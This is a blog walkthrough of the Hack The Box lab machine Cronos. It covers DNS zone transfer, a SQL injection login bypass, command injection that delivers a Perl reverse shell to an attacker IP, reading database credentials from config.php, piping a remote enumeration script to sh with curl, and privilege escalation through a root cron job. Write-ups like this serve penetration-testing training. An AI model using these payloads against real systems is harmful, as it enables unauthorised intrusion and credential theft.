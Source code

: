 ```yaml
---
layout: post
title: "HTB-Cronos"
date: 2020-02-16 18:22:00 +0000
categories: HTB-Walkthrough
---
```


![cronos](/assets/img/cronos.png)

One of my favourite boxes this one...

`nmap -sV -Pn --min-rate 10000 |tee -a cronos.txt`

{% highlight ruby %}
Nmap scan report for 10.10.10.13
Host is up (0.094s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

We see port 53 running, lets enumerate it...

{% highlight ruby %}
root@kali:~/HTB/retired/cronos# nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
{% endhighlight %}

We can add cronos.htb to our /etc/hosts file.

Lets dig a little deeper...

`dig -axfr cronos.htb @10.10.10.13`

{% highlight ruby %}
; <<>> DiG 9.11.5-P4-5.1+b1-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 92 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Fri Jan 24 20:42:44 EST 2020
;; XFR size: 7 records (messages 1, bytes 203)
{% endhighlight %}

lets take a look now at http://admin.cronos.htb

Its a login page...
We can try some well known weak credentials, they fail so lets try sqli login bypass

In the username field type 
{% highlight ruby %}
admin 'or 1=1# 
{% endhighlight %}
sometimes blank password is ok, sometimes random input is required.
Splendid, this gets us into the tracert webpage....we can try to inject commands here....

use ; to add command after the ping one; for example:

{% highlight ruby %}
8.8.8.8;perl -e 'use Socket;$i="10.10.14.19";$p=6969;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
{% endhighlight %}

the perl reverse shell works! we catch the reverse shell on 
`nc -nlvp 6969`

##########################

Taking a look around we know there's always goodies in the config.php file if its available...

{% highlight ruby %}
$ cat config.php                                                                                                   
<?php                                                                                                              
   define('DB_SERVER', 'localhost');                                                                               
   define('DB_USERNAME', 'admin');                                                                                 
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');                                                                   
   define('DB_DATABASE', 'admin');                                                                                 
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE); 
{% endhighlight %}

This may be very useful, we can check the mysql database to see if we can find any other creds.

{% highlight ruby %}
$ mysql -u admin -p
Enter password: kEjdbRigfBHUREiNSDs
use admin  
;
show tables;
select * from users;
quit
Tables_in_admin
users
id      username        password
1       admin   4f5fffa7b2340178a716e3832451e058
$ 
{% endhighlight %}

[g0tmi1k's linux privilege escalation guide is the Bible of linux enum](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/),

one of the first commands I always run (after `sudo -l` and `sudo su`) is
`find / -perm -u=s -type f 2>/dev/null`

{% highlight ruby %}
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
/bin/ntfs-3g
/bin/ping6
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/passwd
{% endhighlight %}

Its important to become well practiced in the techniqes, methods and commands g0tmilk covers. For convenience many folk suppliment this knowlege with using enumeration scripts.
Theres a few good ones out there, [LinEnum.sh](https://github.com/rebootuser/LinEnum) is a good comprehensive one, but the one ive started using first recently is [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

We can use curl (when available on targets) to run the enumeration from our attacking machine.
{% highlight ruby %}
curl 10.10.14.19/linpeas.sh |sh |tee -a enum.txt
{% endhighlight %}
...so we dont even upload the file to the target...neat trick...

Whilst increasingly becomming my goto method of enum, when the conditions allow, its not actually needed here; the way forward is practically right in front of us.

In /var/www/laravel there is an interesting file called 'artisan'.
Looking at our enum.txt output from linpeas.sh we find that cronjob run by root executes it.

our wwwdata user has write privileges in the www folder, so we can replace with evil.php get rootshell....
the php reverse shell can be downloaded from pentestmonkey's website, but its also available in /usr/share/webshells/
we just need to modify the lhost and port settings.

There's a few ways we can get the file to the target... we can copy'n'paste it into vi, we can use `wget` or `curl -O`

{% highlight ruby %}
root@kali:~/HTB/retired/cronos# nc -nlvp 31337
listening on [any] 31337 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.13] 56894
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 04:38:01 up  2:55,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# cat /home/*/user.txt
51xxxxxxxxxxxxxxxxxxxxxxxxxxxx3b
# cat /root/root.txt
1xxxxxxxxxxxxxxxxxxxxxxxxxxxxxa0
{% endhighlight %}


#############################################

Exploiting suid files to escalate privileges is an important technique to practice and remember to look out for,
it will often be the best (and sometimes only) way to get root. 
